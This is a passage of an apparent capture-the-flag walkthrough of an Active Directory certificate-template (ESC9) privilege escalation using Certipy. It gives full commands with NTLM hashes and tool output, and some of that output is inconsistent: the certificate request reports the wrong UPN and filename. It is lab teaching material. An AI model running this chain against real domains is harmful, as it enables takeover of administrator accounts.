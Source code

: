 I used [this page](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc9-no-security-extension-on-certificate-template) to guide me through the exploitation process. It is actually quite simple. First we must see that ca_operator can be enrolled into the vulnerable template, since we have the hash of this user its really easy to do. We can start off by changing the UPN to be the administrator's sAMAccountName which is usually Administrator.

```
certipy account -u 'management_svc@certified.htb' -hashes 'a091c1832bcdd4677c28b5a6a1295584' -dc-ip '10.10.11.41' -upn 'administrator' -user 'ca_operator' update
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_operator'
```

Note that I used the management user to execute this command as I know this user has the GenericAll ACL for ca_opearator. We can then request the certificate as the ca_operator, which will instead point to the Administrator user. We must specify the CA name and the template that is vulnerable, all of this data was provided in the command we used above to check for vulnerabilities.

```
certipy req -u ca_operator -hashes b4b86f45c6018f1b664f70805f45d8f2 -dc-ip '10.10.11.41' -ca 'certified-DC01-CA' -template 'CertifiedAuthentication'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 5
[*] Successfully requested certificate
[*] Got certificate with UPN 'ca_operator@certified.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'ca_operator.pfx'
[*] Wrote certificate and private key to 'ca_operator.pfx'
```

After this command we must change the upn of the user ca_operator to its orignal value so it does not conflict with the authentication.

```
certipy account     -u 'management_svc@certified.htb' -hashes 'a091c1832bcdd4677c28b5a6a1295584'     -dc-ip '10.10.11.41' -upn 'ca_operator'     -user 'ca_operator' update
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator
[*] Successfully updated 'ca_operator
```

Finally we can use certipy with the auth option to use the pfx file we got to authenticate as the administrator user which gives us the NTLM hash and we are able to winrrm into the DC.

```
sudo ntpdate 10.10.11.41 ;certipy auth     -dc-ip '10.10.11.41' -pfx 'administrator.pfx'     -username 'administrator' -domain 'certified.htb'
2025-05-30 00:08:05.408072 (+0200) +25200.298343 +/- 0.008488 10.10.11.41 s1 no-leap
CLOCK: time stepped by 25200.298343
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@certified.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
File 'administrator.ccache' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote credential cache to 'administrator.ccache'
```